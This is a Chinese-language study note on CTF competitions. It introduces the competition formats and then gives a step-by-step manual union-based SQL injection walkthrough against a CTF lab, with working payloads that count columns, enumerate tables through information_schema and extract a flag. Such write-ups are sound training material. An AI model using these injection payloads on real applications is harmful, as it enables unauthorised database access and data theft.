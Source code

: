 ```yaml
---
slug: /net-security/10/09
---
```


**CTP**（Capture the Flag），中文称“夺旗赛”，安全人员之间进行技术竞争的一种比赛。



比赛形式：

1. 理论赛
2. 夺旗赛：Crypto（编码）、Web（渗透）、MISC（杂项）、Reverse（逆向）、PMW
3. AWD 网络攻防赛（团队赛、混战）
4. CFS 网络攻防赛（团队赛、综合靶场）



常见 CTF 题目：[https://www.ctfhub.com](https://www.ctfhub.com)

## SQL 注入

![](http://img.wukaipeng.com/2023/12/15-080046-IOW1OG-image-20231215080045546.png)

![](http://img.wukaipeng.com/2023/12/15-080106-gmml1U-image-20231215080106026.png)

![](http://img.wukaipeng.com/2023/12/15-080120-h1ksHf-image-20231215080120156.png)

### 手动注入

我们使用联合注入的方式：

1️⃣ 判断列数、显示位

输入 `1' order by 2#` 回显，而输入 `1' order by 3#` 不回显，说明数据库查询了两列：

![](http://img.wukaipeng.com/2023/12/17-091506-aq3VSb-image-20231217091506257.png)

![](http://img.wukaipeng.com/2023/12/17-091530-0f5ljW-image-20231217091529991.png)

2️⃣ 获取目标数据库名

输入 `-1' union select database(),2 #` 获取数据库的名称为 `sqli`

![](http://img.wukaipeng.com/2023/12/17-091720-6uGnmk-image-20231217091720030.png)

3️⃣ 获取目标数据库的所有表名、字段名、字段中的数据

输入 `-1' union select group_concat(table_name),2 from information_schema.tables where 
table_schema='sqli' #`，获取得到表 `new` 和 `flag`

![](http://img.wukaipeng.com/2023/12/17-091801-9LpqBH-image-20231217091801810.png)

查找 `flag` 表，输入 `-1' union select group_concat(column_name) ,2 from information_schema.columns where 
table_name='flag' #` ，发现 `flag` 字段

![](http://img.wukaipeng.com/2023/12/17-091849-x8M8uD-image-20231217091849472.png)

输入 `-1' union select flag,2 from sqli.flag #`，最终得到 ctfflag

![](http://img.wukaipeng.com/2023/12/17-091938-jLwlOd-image-20231217091938107.png)

### 使用 SQLMap

// TODO





